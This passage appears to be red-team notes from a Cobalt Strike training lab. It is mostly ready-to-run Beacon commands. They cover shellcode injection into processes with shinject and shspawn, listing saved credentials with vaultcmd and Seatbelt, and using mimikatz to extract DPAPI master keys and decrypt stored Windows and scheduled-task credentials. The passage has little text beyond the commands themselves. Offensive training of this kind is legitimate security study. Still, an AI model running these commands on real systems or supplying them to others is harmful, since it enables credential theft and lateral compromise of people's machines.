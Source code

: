 ```bash
beacon> spawn x64 http
```

### Spawn and Inject

shinject and shspawn.  Both allow you to inject an arbitrary shellcode blob - `shinject` can inject into an existing process, and `shspawn` will spawn a new process.

```bash
beacon> shspawn x64 C:\Payloads\msf_http_x64.bin
```

## Data Protection API

> DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by third-party applications like Google Chrome to store website credentials.

### Credential Manager

```bash
beacon> run vaultcmd /list
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
# Seatbelt
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles
```

#### Decrypt

> This will only work if executed in the context of the user who owns the key.  If your Beacon is running as another user or SYSTEM, you must impersonate the target user somehow first, then execute the command using the @ modifier.

```bash
# Get the master key (ADMIN is required)
beacon> mimikatz !sekurlsa::dpapi
# Anothe way
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc
# Decrypt
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
```

### Scheduled Task Credentials

Scheduled Tasks can save credentials so that they can run under the context of a user without them having to be logged on

```bash
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E
beacon> mimikatz !sekurlsa::dpapi
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
```

